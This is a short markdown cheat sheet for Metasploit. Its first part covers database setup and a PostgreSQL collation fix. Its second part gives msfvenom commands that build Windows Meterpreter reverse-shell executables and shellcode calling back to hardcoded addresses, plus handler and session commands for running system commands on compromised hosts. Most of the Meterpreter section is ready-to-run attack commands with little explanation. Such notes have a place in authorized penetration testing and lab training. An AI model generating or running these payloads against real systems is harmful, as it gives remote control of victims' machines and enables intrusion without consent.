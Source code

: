 DB
--- 

__msf db init:__  
>
> sudo systemctl enable postgresql  
> sudo systemctl start postgresql  
> sudo msfdb init  
>
> msfconsole -q  
> `msf > db_status`

__upd msf pg collation:__  
>
> sudo -u postgres psql  
> `# \l`  
> `# \c msf`  
> `# REINDEX DATABASE msf;`  
> `# ALTER DATABASE msf REFRESH COLLATION VERSION;`  
> `# \q`  

MTR
---

https://docs.rapid7.com/metasploit/use-meterpreter-locally-without-an-exploit/

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100t.exe  
> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 --format=exe > _mtr100t_x64.exe  

> msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set ExitFunc thread;set ExitOnSession false;set LHOST 192.168.0.100;set LPORT 4444;run"  

> msfconsole -q  
>
> `msf > use exploit/multi/handler`    
>
> `msf > set PAYLOAD windows/meterpreter/reverse_tcp`  
> `msf > set LHOST 192.168.0.100`    
> `msf > set LPORT 4444`    
> `msf > set ExitOnSession false`    
> `msf > exploit -j`


> `msf> jobs -l`  
> `msf> sessions -l`
  
> `msf> run -j # run -jz # run`

`help`  
> `msf> sessions -h`  
> `msf> run -h`
> `msf> jobs -h`
 
`sessions`  
> `msf > sessions -l   # list all sessions`  
> `msf > sessions -i 1 # switch to session 1`

> `msf > sessions -n session_name_one -i 1 # set session name`  

> `msf > sessions -i 1 -c "whoami" # run sys cmd at 1 session `
> `msf > sessions -i 1 -C "sysinfo" # run mtr cmd at 1 session`  

> `msf > sessions -c "tasklist" all # run sys cmd at all sessions`  

> `msf > session -K # kill all sessions`  
> `msf > sessions -k 1 # kill 1 session`  

> `meterpreter > background # current session to background`  
> `meterpreter > exit # exit from current session`  

---

> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.120 LPORT=4444 -f raw -o _mtr120h.bin  
> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.120 LPORT=4444 -f exe -o _mtr120h.exe  

> msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set ExitOnSession false;set EXITFUNC thread;set LHOST 192.168.0.120;set LPORT 4444;run;" 

---
  